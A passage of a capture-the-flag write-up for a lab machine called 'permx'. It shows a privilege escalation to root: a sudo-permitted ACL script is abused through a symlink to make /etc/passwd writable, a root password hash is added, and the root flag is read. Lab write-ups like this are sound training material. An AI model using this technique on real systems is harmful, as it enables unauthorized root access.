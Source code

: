 <img width="1440" alt="ssh mtz" src="https://github.com/user-attachments/assets/b9a0572f-4ae8-4795-af3b-e31bbd208a3f">


### ROOT ACCESS

<img width="710" alt="sudo -l" src="https://github.com/user-attachments/assets/e0e58051-cb32-4c36-b29e-b6a226e10238">

We need to create a symbolic link then add root user hash in  /etc/passwd file.

generate password using openssl

```bash
❯ openssl passwd -1 'kant'
$1$OG3GEPM0$bDa2dBCJvJ3CyNbW/p0Yp0
```
---

edit the /etc/passwd file........

<img width="722" alt="Screenshot 2024-07-27 at 2 05 33 PM" src="https://github.com/user-attachments/assets/f319b600-aed8-4594-98c2-4d7184a70909">

---

```bash
mtz@permx:~$ nano /etc/passwd
mtz@permx:~$ ln -s /etc/passwd ./passwd
mtz@permx:~$ sudo /opt/acl.sh mtz rw /home/mtz/passwd
mtz@permx:~$ nano /etc/passwd
mtz@permx:~$ su
Password:
root@permx:/home/mtz# cd /root
root@permx:~# ls
backup  reset.sh  root.txt
root@permx:~# cat root.txt
5eef2a44005d68339e051f076be59e53
root@permx:~#
```






